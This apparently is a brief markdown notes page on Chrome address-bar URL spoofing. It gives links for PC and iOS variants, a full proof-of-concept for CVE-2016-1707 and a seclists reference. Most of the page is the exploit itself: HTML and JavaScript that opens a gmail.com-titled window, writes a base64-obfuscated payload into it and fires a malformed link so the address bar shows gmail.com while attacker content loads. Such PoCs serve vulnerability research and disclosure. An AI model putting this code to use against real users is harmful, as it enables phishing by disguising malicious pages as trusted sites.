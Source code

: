 ## chrome browser

### PC
- https://github.com/musalbas/address-spoofing-poc
- https://bugs.chromium.org/p/chromium/issues/detail?id=68956

### iOS
- https://xlab.tencent.com/en/2016/10/10/cve-2016-1707-chrome-address-bar-url-spoofing-on-ios/

CVE-2016-1707
``` html
<script>

payload="PGJvZHk+PC9ib2R5Pg0KPHNjcmlwdD4NCiAgICB2YXIgbGluayA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ2EnKTsNCiAgICBsaW5rLmhyZWYgPSAnaHR0cHM6Ly9nbWFpbC5jb206Oic7DQogICAgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChsaW5rKTsNCiAgICBsaW5rLmNsaWNrKCk7DQo8L3NjcmlwdD4=";

function pwned() {

    var t = window.open('https://www.gmail.com/', 'aaaa');
    t.document.write(atob(payload));
    t.document.write("<h1>Address bar says https://www.gmail.com/ - this is NOT https://www.gmail.com/</h1>");
}

</script>

<a href="https://hack.com::/"  target="aaaa" onclick="setTimeout('pwned()','500')">click me</a><br>
```


### reference
- https://seclists.org/fulldisclosure/2015/Jun/108